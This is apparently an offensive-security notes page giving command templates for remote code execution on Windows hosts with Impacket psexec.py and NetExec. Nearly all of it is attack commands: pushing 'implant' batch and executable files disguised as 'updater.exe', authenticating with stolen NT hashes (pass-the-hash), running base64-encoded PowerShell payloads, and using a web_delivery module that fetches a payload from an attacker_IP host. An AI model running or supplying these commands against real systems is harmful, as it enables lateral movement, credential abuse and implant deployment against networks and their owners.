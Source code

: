 # Manual

## 01 - Impacket

Execute `.bat` files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -c implant.bat

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -c implant.bat
```

Execute custom `.exe` service files.

```
$ psexec.py [<domain>/]<username>:<password>@<IP> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe

$ psexec.py [<domain>/]<username>@<IP> -hashes :<nt_hash> -file implant.exe -c implant.exe -service-name <ServiceSVC> -remote-binary-name updater.exe
```

## 02 - NetExec

Authenticate via username and password

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Authenticate via Pass The Hash

```
$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x implant.bat

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -x "powershell -E <base64_payload>"
```

Refer to [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Web Drive-by/Linux/C2 Frameworks|Metasploit Web Delivery]] module.

```
$ netexec smb <IP> -u "<username>" -p "<password>" [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]

$ netexec smb <IP> -u "<username>" -H <nt_hash> [-d <domain> | --local-auth] -M web_delivery -o URL=http://<attacker_IP>/[path/to/URI]
```

---
## References

- [Hacking Articles: Windows Exploitation Regsvr32](https://www.hackingarticles.in/windows-exploitation-regsvr32/)

- [Cross Platform Dropper](https://khast3x.club/posts/2020-06-27-Cross-Platform-Dropper/)